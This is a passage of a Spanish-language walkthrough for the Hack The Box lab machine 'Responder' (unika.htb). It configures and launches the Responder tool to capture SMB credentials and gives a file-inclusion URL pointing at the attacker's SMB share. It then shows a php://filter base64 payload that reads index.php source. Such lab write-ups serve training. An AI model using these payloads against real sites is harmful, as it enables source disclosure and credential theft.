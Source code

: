    nano Responder.conf

 ![Captura de pantalla -2022-04-11 22-45-54](https://user-images.githubusercontent.com/103068924/162829073-13d21638-c3a8-4f37-a686-eec04a244055.png)

 En caso de estar en modo off lo cambiamos al on, guardamos (Cntrl + o) y salimos (Cntrl + x).
 
 Ya tendriamos la herramienta Responder preparada. Ahora debemos iniciar Responder con python3 y utilizar el indicado `-I` para activar el modo escucha.
 
    sudo python3 Responder.py -I tun0 
                
![Captura de pantalla -2022-04-11 22-58-20](https://user-images.githubusercontent.com/103068924/162831086-07194fd6-8afb-40a1-ad6f-1b65af7975be.png)

![Captura de pantalla -2022-04-11 22-59-03](https://user-images.githubusercontent.com/103068924/162831102-c08c5c76-bac8-4c54-821b-466124bfd0eb.png)

 Una vez tenemos el Responder listo y en escucha, debemos configurar un parámetro dentro del servidor de la máquina para que incluya un recurso de
 nuestro servidor SMB.
 
 Este parámetro lo configuraremos mediante el navegador web. Para ello incluiremos nuestra ip (tun0) lo cual podemos ver mediante el comando `ifconfig`.
 
    http://unika.htb/?page=//[Ip de nuestra tun0]/somefile
          
![Captura de pantalla -2022-04-12 00-04-50](https://user-images.githubusercontent.com/103068924/162841324-0250adad-5f7f-49ed-b487-81740e71a37a.png)

Tras intentar realizar la escucha varias veces y recargar la página no consdigo establecer la conexión.
He revisado varias veces la configuración y por algún motivo Responder no me funciona.

# File Local Inlcusion PHP

Así que tras ver que con Responder no podía, empece a buscar vulnerabilidades comunes de File Local Intrusion
y tras mucho investigar encontre una intrusión conocida como wrapper `php//filter`.

Donde básicamente mediante el buscador, incluimos una dirección que nos reporta el hash en base64.
Tras probar las distintas obciones, está fue la que me funciono a mi:

    page=php://filter/convert.base64-encode/resource=index.php

Aqui podeís encontrar más información y más vulnerabilidades de Local File Intrusion PHP:
[https://book.hacktricks.xyz/pentesting-web/file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
         
![Captura de pantalla -2022-04-12 00-21-23](https://user-images.githubusercontent.com/103068924/162842965-294ea05b-12cf-4ec2-a433-38b95db263a9.png)
          
Lo introduciomos en el buscador:

![Captura de pantalla -2022-04-12 00-26-52](https://user-images.githubusercontent.com/103068924/162843528-2e662ba0-3eac-4d45-9d45-baf37a28d250.png)

    http://unika.htb/index.php?page=php://filter/convert.base64-encode/resource=index.php

Y al recargar la página podemos ver como se nos reporta un hash en base64. 

![Captura de pantalla -2022-04-12 00-35-10](https://user-images.githubusercontent.com/103068924/162844358-0814ecd9-5089-43f5-abdc-b0aa0a863e9c.png)

